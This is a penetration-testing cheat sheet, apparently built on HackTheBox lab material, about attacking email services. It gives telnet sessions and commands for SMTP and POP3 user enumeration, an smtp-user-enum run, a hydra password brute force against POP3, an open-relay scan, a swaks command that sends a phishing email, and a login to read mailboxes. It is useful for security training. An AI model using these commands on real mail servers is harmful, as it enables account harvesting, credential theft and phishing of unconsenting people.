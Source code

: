 | **Port**  | **Service**                                                                | **Used to Send/Receive**          |
| --------- | -------------------------------------------------------------------------- | --------------------------------- |
| `TCP/25`  | SMTP Unencrypted                                                           | Sending emails only               |
| `TCP/143` | IMAP4 Unencrypted                                                          | Receiving emails                  |
| `TCP/110` | POP3 Unencrypted                                                           | Receiving emails                  |
| `TCP/465` | SMTP Encrypted                                                             | Sending emails securely (SSL/TLS) |
| `TCP/587` | SMTP Encrypted/[STARTTLS](https://en.wikipedia.org/wiki/Opportunistic_TLS) | Sending emails with encryption    |
| `TCP/993` | IMAP4 Encrypted                                                            | Receiving emails securely         |
| `TCP/995` | POP3 Encrypted                                                             | Receiving emails securely         |
### User Enumeration

`VRFY` this command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

VRFY root

252 2.0.0 root

VRFY www-data

252 2.0.0 www-data

VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

`EXPN` is similar to `VRFY`, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem than the `VRFY` command since sites often have an alias such as "all."

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

EXPN john

250 2.1.0 john@inlanefreight.htb

EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

`RCPT TO` identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio

550 5.1.1 julio... User unknown

RCPT TO:kate

550 5.1.1 kate... User unknown

RCPT TO:john

250 2.1.5 john... Recipient ok
```

We can also use the `POP3` protocol to enumerate users depending on the service implementation. For example, we can use the command `USER` followed by the username, and if the server responds `OK`. This means that the user exists on the server.


```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR

USER john

+OK
```

### Summary

| **Command** | **Function**                                                                                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------ |
| VRFY        | Verifies the existence of a specific email address. Returns the full address if valid, otherwise indicates non-existence.      |
| EXPN        | Expands a mailing list or group. Returns the members of the mailing list if available, or an error if the list does not exist. |
| **RCPT TO** | Specifies the recipient(s) of an email in the SMTP transaction. Used to define individual or multiple recipients.              |
### Automatite Process

```bash
smtp-user-enum -M RCPT -U userlist.txt -d inlanefreight.htb -t 10.129.203.7
```

Once users have been gather we can brute force the password:

```bash
hydra -l marlin@inlanefreight.htb -P passwords.list -f 10.129.203.12 pop3 -VV -F -I -t 64
```

### Open Relay

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Send Email to Open Relay:

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

### Connect to POP3 - Retrieve Emails

Connect and enter username and password:

```bash
telnet 10.129.203.12 110
Trying 10.129.203.12...
Connected to 10.129.203.12.
Escape character is '^]'.
+OK POP3 server ready
USER john.doe
+OK User name accepted, password please
PASS mypassword123
+OK Mailbox locked and ready
```

Check Messages:

```bash
LIST
+OK 1 messages (601 octets)
1 601
```

Retrieve Message 1:

```bash
RETR 1
```

